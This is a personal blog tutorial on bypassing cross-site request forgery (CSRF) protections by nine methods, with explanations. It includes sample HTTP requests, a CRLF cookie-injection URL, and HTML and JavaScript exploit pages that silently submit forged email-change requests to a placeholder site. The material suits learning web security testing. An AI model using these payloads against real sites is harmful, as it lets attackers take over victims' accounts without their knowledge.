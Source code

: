 # My methodology to bypass CSRF

<figure><img src="https://miro.medium.com/v2/resize:fit:800/1*VqHKUGpknyuguwOcMXidHw.jpeg" alt="" height="480" width="640"><figcaption></figcaption></figure>

Hello everyone, my name is Ahmed Farag, and this is my first blog on my journey to study web application vulnerabilities .i will show my methodology to bypass csrf with 9 different methods.

**First, let’s learn about:**

## What is Cross-Site Request Forgery (CSRF)? <a href="#f1e7" id="f1e7"></a>

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

## How does CSRF work actually ? <a href="#ac52" id="ac52"></a>

There are some conditions for a CSRF attack to be possible :

* **An Action** : There should be an API call or POST request that an attacker can take advantage of. The action can be anything like email changing , password reset , profile update , 2FA enabling etc..
* **Cookie based Session Handling** : The application must rely on the session cookies to identify which user made the request. There should be no other protection in place to track user’s request or any kind of protection like asking secret questions for an update.
* **No Token Parameters** : The requests that perform the requests do not contain any parameters which contains values that an attacker cannot guess or brute force. Example: If you are going to enable 2FA then the application is likely going to ask you to confirm your password, so in that case the attacker would not be able to successfully use CSRF because of not knowing the password.

## Bypass CSRF Protection <a href="#id-5ae0" id="id-5ae0"></a>

## Bypass Method-1 <a href="#f3d0" id="f3d0"></a>

first step scan if the server **Only checks the token**

check if token is constant for any request i sent it. if token is constant now i can say i have csrf vulnerability

```
POST /my-account/change-email HTTP/2
Host: test.com
Cookie: session=Bahclb54I2oDaJtDBtqTX9ZvXvl432NQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://test.com
Referer: https://test/my-account?id=irix
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
email=test%40test.com&csrf=Yl1zlDXaJsflSqKqBVZtN9bK3MMjyXhN
```

## Bypass Method-2 <a href="#id-0db6" id="id-0db6"></a>

delete the value of token and send the request if the value of request is Missing CSRF try to delete the parameter and try to send request again if the respound is 200 or 302 now you have csrf vulnerability

```
try that -->> csrf= or just email in the request

the response is 
HTTP/2 302 Found
HTTP/2 200 OK
```

## Bypass Method-3 <a href="#id-2984" id="id-2984"></a>

try to change the token and send the request may be the server is not check the token if any value is found

## Bypass Method-4 <a href="#bcd6" id="bcd6"></a>

if the server check to value like csrf and csrfKey if two value are different and the csrf only stored in cookie we can inject url code to add csrfKey in the victim’s browser like this

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

<figure><img src="https://miro.medium.com/v2/resize:fit:426/1*aUK_7vzsig8kbmh415_ihA.png" alt="" height="56" width="341"><figcaption></figcaption></figure>

the exploit code for this case:

```
<html>
  <body>
    <form action="https://test.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="irix&#64;irxi&#46;com" />
      <input type="hidden" name="csrf" value="irix" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://test.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## Bypass Method-5 <a href="#c81c" id="c81c"></a>

try to change the request method

## Bypass Method-6 <a href="#id-1595" id="id-1595"></a>

if you try change the request method and the server is refused that try to overwrite for this method\
change request method and add this in the request on burp

```
GET /my-account/change-email?email=irix@irixt.com&_method=POST HTTP/1.1
```

exploit code:

```
<script>
    document.location = "https://test.com/my-account/change-email?email=test@test.com&_method=POST";
</script>
```

## Bypass Method-7 <a href="#id-144b" id="id-144b"></a>

create a new account and try to send request take the token and drop the request then take the token and add it on another request for different account .

## Bypass Method-8 <a href="#id-126d" id="id-126d"></a>

Many Web applications use a Static and Dynamic part CSRF token i.e take the below example

CSRF Token : `ZkfcxrWQ9CeoefwlwXuIXofKB6Vnk6t7jA9n2zxG`

In this CSRF token , the first 20 characters are static i.e they are same for all the users registered on the Web application and the next 20 characters are dynamic which means the last 20 characters are different for all the users. So what you can do is keep the static characters of the CSRF token same and use random text for the dynamic 20 characters. If the server is accepting the CSRF token then you have successfully bypass CSRF Protection.

## Bypass Method-9 <a href="#id-944b" id="id-944b"></a>

Check for Token randomness and use BURP to automate this randomness test process and see if the token is weak or not and try to crack it. Remember to also see if the CSRF token is just a normal hash token like MD5 and if it’s actually a common algorithm then you can try creating new token using that hash algorithm and replace the token. Try changing User-Agent to Mobile User agent and see if the request is accepted.
